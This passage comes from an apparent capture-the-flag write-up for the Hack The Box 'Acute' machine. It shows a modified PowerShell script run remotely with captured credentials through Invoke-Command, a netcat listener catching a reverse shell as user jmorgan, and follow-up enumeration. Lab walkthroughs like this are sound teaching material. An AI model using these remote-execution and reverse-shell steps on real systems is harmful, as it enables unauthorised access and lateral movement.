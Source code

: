 - Run the modified `wm.ps1` script:

```shell
Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { C:\Users\imonks\Desktop\wm.ps1 }
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:07:23(HKT)]
└> rlwrap -cAr nc -lvnp 4443
listening on [any] 4443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.145] 49841
[...]
PS C:\Users\jmorgan\Documents> whoami; ipconfig /all
acute\jmorgan

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Acute-PC01
   Primary Dns Suffix  . . . . . . . : acute.local
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : acute.local

Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft Hyper-V Network Adapter #2
   Physical Address. . . . . . . . . : 00-15-5D-E8-0A-01
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::9513:4361:23ec:64fd%14(Preferred) 
   IPv4 Address. . . . . . . . . . . : 172.16.22.2(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.22.1
   DHCPv6 IAID . . . . . . . . . . . : 251663709
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-29-29-1F-44-00-15-5D-E8-02-00
   DNS Servers . . . . . . . . . . . : 172.16.22.1
[...]
```

I'm user `jmorgan` on `Acute-PC01`!

### `Acute-PC01` jmorgan to `ATSSERVER` awallace

**After enumerating user `jmorgan`'s profile, I found nothing interesting:**
```shell
PS C:\Users\jmorgan\Documents> gci -Recurse C:\Users\jmorgan\
[...]
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
d-r---        07/12/2019     09:14                Desktop                                                              
d-r---        21/12/2021     22:50                Documents                                                            
d-r---        07/12/2019     09:14                Downloads                                                            
d-r---        07/12/2019     09:14                Favorites                                                            
d-r---        07/12/2019     09:14                Links                                                                
d-r---        07/12/2019     09:14                Music                                                                
```